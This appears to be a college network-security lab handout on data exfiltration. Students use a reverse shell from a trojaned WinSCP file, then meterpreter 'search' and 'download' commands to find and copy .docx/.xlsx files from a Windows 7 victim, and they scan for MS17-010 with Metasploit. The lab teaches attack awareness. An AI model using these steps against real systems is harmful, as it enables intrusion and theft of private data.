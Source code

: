 # Data Exfiltration


## Discussion

Data exfiltration is particularly problematic because the amount of data that can be obtained could be significant.  There have been attacks where Terabytes of data had been stolen and it was never detected until the organization was contacted by law enforcement or the data was publicly exposed.  As you perform the attack in this lab, think of it happening to a medical facility where you and your family receive treatment, to Champlain College, or a bank.  Think of the types of information you’ve provided to your hospital, Dr’s office, Champlain, or a bank.


## Preparation



* Ensure your firewall, Windows 7, and Kali system are on.
* Kali must be on the NETSEC-WAN segment
* Switch to your WIndows 7 system.and open Internet Explorer (Start menu and type “iexplore”)
* Browse to Google and search for Google Chrome.
* Download Google Chrome and install it.
* Open Google Chrome and browse to the URL: https://tinyurl.com/5y2e8xxe
* Download the zip file:
* Extract the files to the “Documents” folder for ‘joker.’


## Start the Attack

Login to your Kali system and perform the attack to [obtain a reverse shell on Windows 7.](https://docs.google.com/document/u/0/d/1H-UP20kA2V46aPtNbcMP4iHkW8g5_876y2nYlzmh-0w/edit)

**NOTE: You should already have the WinSCP file in your Downloads folder, so you only need to start the listener on Kali and once it is running, execute the WinSCP program.**

At the meterpreter prompt, type:

search  -f   *.docx

The command searches for files ending with *.docx.  Wait to see if there are any results.  If not, search for *.xlsx files

Note the output of files.  To exfil those files use the “Download” command.

download ‘PATH_TO_FILE’

You have to add the single quotes around the file name.  Download each of the files to your Kali workstation.

Type the command “ls” on your Kali workstation to show the files were downloaded.  Annotate the files highlighted.

NOTE: If obtaining those xlsx files was the attackers goal, the attack is over that quick.

**Submission: Take a screenshot of the files that were exfiltrated.**



**Complete the MRCI Lab under “Security Tools:” Use Metasploit To Identify A Machine Vulnerable To MS17-010**

Note that it mentions using the “auxiliary” module.  Auxiliary modules within Metasploit are typically used for scanning or enumerating (finding information), but not to “exploit” a vulnerability.  When you popped a shell on Windows XP, you used an “exploit” module.  Accordingly, when you search for the MS17-010 module, then look for the ‘auxiliary’ modules.  Try each one and be sure it meets the rubric for the lab.  Use your mouse to highlight the expected text:

**Validation: You will see the message appear 'Host is LIKELY vulnerable to MS17-010!'**
